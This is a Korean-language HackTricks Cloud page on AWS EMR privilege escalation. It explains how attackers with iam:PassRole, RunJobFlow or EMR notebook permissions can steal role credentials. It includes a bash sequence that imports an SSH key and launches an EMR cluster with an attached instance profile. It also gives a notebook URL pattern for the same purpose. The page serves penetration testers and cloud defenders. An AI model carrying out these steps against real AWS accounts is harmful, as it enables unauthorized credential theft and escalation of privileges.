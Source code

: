 # AWS - EMR 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## EMR

EMR에 대한 **추가 정보**는 다음에서 확인할 수 있습니다:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이러한 권한을 가진 공격자는 **EC2 역할을 연결하여 새로운 EMR 클러스터를 실행**하고 해당 자격 증명을 도용하려고 시도할 수 있습니다.\
이를 위해 계정에 **임포트된 일부 ssh 개인 키를 알아야 하거나 하나를 임포트**해야 하며, **마스터 노드에서 포트 22를 열 수 있어야 합니다** (`--ec2-attributes` 내부의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용하여 이를 수행할 수 있을 수도 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
**EMR 역할**은 `--service-role`에서 지정되고 **ec2 역할**은 `--ec2-attributes` 내부의 `InstanceProfile`에서 지정됩니다. 그러나 이 기술은 EC2 역할 자격 증명을 도용할 수는 있지만 (ssh를 통해 연결하기 때문에) EMR IAM 역할은 도용할 수 없습니다.

**잠재적 영향:** 지정된 EC2 서비스 역할로의 권한 상승

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이러한 권한을 가진 공격자는 **AWS 콘솔**로 이동하여 노트북을 생성하고 액세스하여 IAM 역할을 도용할 수 있습니다.

{% hint style="danger" %}
노트북 인스턴스에 IAM 역할을 연결하더라도 제 테스트에서는 AWS 관리 자격 증명을 도용할 수 있었지만 IAM 역할과 관련된 자격 증명을 도용할 수 없었습니다.
{% endhint %}

**잠재적 영향:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 액세스하여 연결된 IAM 역할을 도용**할 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

{% hint style="danger" %}
노트북 인스턴스에 IAM 역할을 연결하더라도 제 테스트에서는 AWS 관리 자격 증명을 도용할 수 있었지만 IAM 역할과 관련된 자격 증명을 도용할 수 없었습니다.
{% endhint %}

**잠재적 영향:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
